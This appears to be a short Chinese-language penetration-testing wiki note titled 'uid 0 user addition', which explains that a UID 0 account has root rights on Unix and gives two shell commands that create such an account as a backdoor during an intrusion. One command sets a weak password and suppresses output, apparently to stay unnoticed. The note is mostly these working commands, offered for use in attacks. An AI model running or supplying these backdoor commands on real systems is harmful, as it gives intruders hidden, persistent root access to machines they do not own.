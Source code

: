 ## uid 0用户添加

在 Unix 体系下，UID 为 0 就是 root 权限。所以渗透的时候可以添加一个 UID 为 0 的用户作为后门。

```bash
useradd -p `openssl passwd 123456`  -o -u 0 guest
/usr/sbin/useradd -o -u 0 hack &>/dev/null && echo hack:123456 | /usr/sbin/chpasswd &>/dev/null

```

![](images/security_wiki/15905814652919.png)


